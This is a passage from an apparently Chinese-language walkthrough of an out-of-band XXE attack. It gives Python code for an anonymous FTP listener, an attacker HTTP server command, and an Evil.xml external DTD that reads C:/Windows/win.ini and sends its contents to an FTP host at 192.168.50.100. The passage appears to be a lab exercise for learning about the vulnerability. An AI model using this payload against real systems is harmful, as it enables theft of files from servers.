 ```python
import os
from pyftpdlib.authorizers import DummyAuthorizer
from pyftpdlib.handlers import FTPHandler
from pyftpdlib.servers import FTPServer

def main():
    # 实例化虚拟用户, 这是FTP验证的首要条件
    authorizer = DummyAuthorizer()
    # Define a new user having full r/w permissions and a read-only
    # 添加用户权限和路径, 括号内的参数为(用户名, 密码, 用户目录, 权限)
    # authorizer.add_user('user', '12345', '.', perm='elradfmwMT')

    # anonymous user , 只需要路径, 指定当前路径
    authorizer.add_anonymous('.')

    # 初始化 FTP handler class
    handler = FTPHandler
    handler.authorizer = authorizer

    # Define a customized banner (string returned when client connects)
    handler.banner = "pyftpdlib based ftpd ready."

    # 监听ip和port
    # Instantiate FTP server class and listen on 0.0.0.0:2121
    address = ('0.0.0.0', 2121)
    server = FTPServer(address, handler)
    # set a limit for connections
    # server.max_cons = 256
    # server.max_cons_per_ip = 5

    # start ftp server
    server.serve_forever()

if __name__ == '__main__':
    main()
```

<div align=center ><img width="800" src="https://user-images.githubusercontent.com/84888757/223007526-377dc534-07e6-4368-b1bb-363ceff52b2d.png" /></div>

### 2.4.2 攻击机开启一个http服务
```bash
python3 -m http.server 9999
```

这里放一个 `Evil.xml` ，用来放外部文件供漏洞处读取。
意思就是读取 `win.ini` 文件，并返回到 `FTP` 服务

📒 Evil.xml
```xml
<!ENTITY % file SYSTEM "file:///C:/Windows/win.ini">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'ftp://192.168.50.100:2121/%file;'>">
%int;
%send;
```
